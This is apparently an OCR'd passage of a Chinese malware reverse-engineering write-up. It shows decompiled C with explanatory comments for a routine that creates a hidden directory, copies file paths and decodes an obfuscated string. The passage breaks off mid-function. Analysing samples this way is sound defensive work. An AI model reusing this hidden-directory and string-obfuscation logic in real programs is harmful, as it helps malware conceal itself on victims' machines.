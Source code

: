 ```c
  {
    DestroyWindow(hWnd); // 销毁窗口
    return 0; // 消息已处理，返回0
  }
  else
  {
    return DefWindowProcA(hWnd, 0x111u, wParam, lParam); // 其他自定义消息，调用默认处理函数
  }
}

```

### sub_401130

**这个函数是用来创建隐藏目录并复制一些文件**

```c
int sub_401130()
{
  int v0; // eax
  char v1; // cl
  const char *v2; // eax
  int v3; // ecx
  char v4; // dl
  CHAR *v5; // eax
  int v6; // ecx
  CHAR *v7; // edx
  BYTE *v8; // ecx
  CHAR *v9; // eax
  bool v10; // cf
  unsigned __int8 v11; // dl
  int v12; // eax

  // 创建一个名称为'Path'的目录
  _mkdir((const char *)Path);
  // 将目录的文件属性设置为'2u'
  SetFileAttributesA((LPCSTR)Path, 2u);

  // 将'Path'中的每个字符复制到'byte_413298'中，直到遇到空终止符
  v0 = 0;
  do
  {
    v1 = Path[v0];
    byte_413298[v0++] = v1;
  }
  while ( v1 );

  // 获取一个字符串"oDbdi"并将其存储在'v2'中
  v2 = sub_4026E0("oDbdi", 1);                                                // nCach
  // 将"\\"附加到'Path'末尾
  *(_WORD *)&Path[strlen((const char *)Path)] = '\\';
  // 将"\\"附加到'byte_413298'末尾
  *(_WORD *)&byte_413298[strlen(byte_413298)] = '\\';

  // 将'byte_413298'中的每个字符复制到'byte_4133A0'中，直到遇到空终止符
  v3 = 0;
  do
  {
    v4 = byte_413298[v3];
    byte_4133A0[v3++] = v4;
  }
  while ( v4 );

  // 将存储在'v2'中的字符串连接到'byte_4133A0'中
```